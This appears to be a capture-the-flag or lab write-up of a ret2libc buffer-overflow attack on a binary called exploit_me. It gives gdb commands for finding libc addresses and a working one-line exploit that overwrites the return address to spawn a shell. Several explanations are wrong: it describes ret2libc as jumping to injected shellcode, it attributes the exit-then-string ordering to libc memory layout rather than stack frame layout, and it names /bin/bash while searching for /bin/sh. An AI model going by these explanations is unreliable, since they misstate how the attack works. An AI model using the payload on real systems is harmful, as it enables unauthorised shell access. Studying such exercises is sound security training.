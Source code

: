 # ret2libc attack

The main function utilizes the unsafe <code>strcpy()</code> function, which is vulnerable to buffer overflow attacks. There is no direct <code>system()</code> call, so we may need to find our own way to access it. This situation is commonly referred to as a <code>return to libc</code> attack, where the overflow overwrites the return address with the memory address of the injected shellcode. Upon returning from the function, instead of jumping to the legitimate address, it redirects execution flow to the shellcode. There are 3 prerequisites for planning this type of attack:
- <code>system()</code> - which allows executing shell commands
- <code>exit()</code> - used to terminate the program after executing the shell command
- <code>/bin/bash</code> - which is passed as an argument to <code>system()</code> to spawn a shell

``` shell
overflow --EXPLOIT--> system() --> exit() --> /bin/bash
```
To find the offset, we can use an online tool ([Wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)). To find the addresses, we use <code>gdb</code>:
``` shell
(gdb) b main
(gdb) r
(gdb) p &system
(gdb) p &exit
(gdb) find &system, +999999999, "/bin/sh"
```

It might seem weird that the <code>/bin/bash</code> comes after <code>exit()</code>. When a program is compiled and linked, functions like <code>system()</code> and <code>exit()</code> from the libc are typically located before any static data such as strings. Therefore, the address of the <code>exit()</code> function usually comes before the address of the <code>/bin/bash</code> string in memory.

## exploit
The exploit is constructed using the addresses and overflow in the following order:
- Offset of 140 bytes.
- The three function addresses in little-endian format.
``` shell
./exploit_me $(python -c 'print "F"*140 + "\xb7\xe6\xb0\x60"[::-1] + "\xb7\xe5\xeb\xe0"[::-1] + "\xb7\xf8\xcc\x58"[::-1]')
```
